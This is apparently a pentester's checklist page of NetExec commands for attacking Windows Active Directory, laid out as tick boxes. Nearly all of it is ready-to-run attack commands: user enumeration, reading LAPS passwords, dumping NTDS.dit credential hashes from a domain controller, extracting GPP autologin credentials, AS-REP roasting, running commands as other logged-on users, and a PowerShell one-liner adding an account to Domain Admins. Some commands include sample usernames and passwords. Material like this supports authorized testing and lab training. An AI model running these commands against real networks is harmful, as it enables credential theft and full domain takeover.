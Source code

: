 * [ ] Password policy: `nxc smb 10.10.10.161 --pass-pol -u '' -p ''`
* [ ] To enumerate users: `nxc smb 172.16.5.5 --users`\
  Groups enumeration: `--groups`
* [ ] Laps password:

```
nxc winrm <ip> -u user-can-read-laps -p pass --laps 
```

Add name at end if administrator is a different user

* [ ] Bloodhound

```
nxc ldap <ip> -u user -p pass --bloodhound -c All -ns <ip>
```

* [ ] NTDS.dit from DC:

```
nxc smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

* [ ] To spider a share :

```
nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
```

* [ ] If local admin then can [pass-the-password-or-pass-the-hash.md](../active-directory/ad-exploitation/pass-the-password-or-pass-the-hash.md "mention") to privilege escalate
* [ ] To check credentials in gpp:

```
nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

* [ ] Asreproasting:

```
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

or with wordlist :

```
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

* [ ] To check if computers can be added

```
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

* [ ] Run commands on behalf of other users:

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

Quickly add user to domain admin:

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
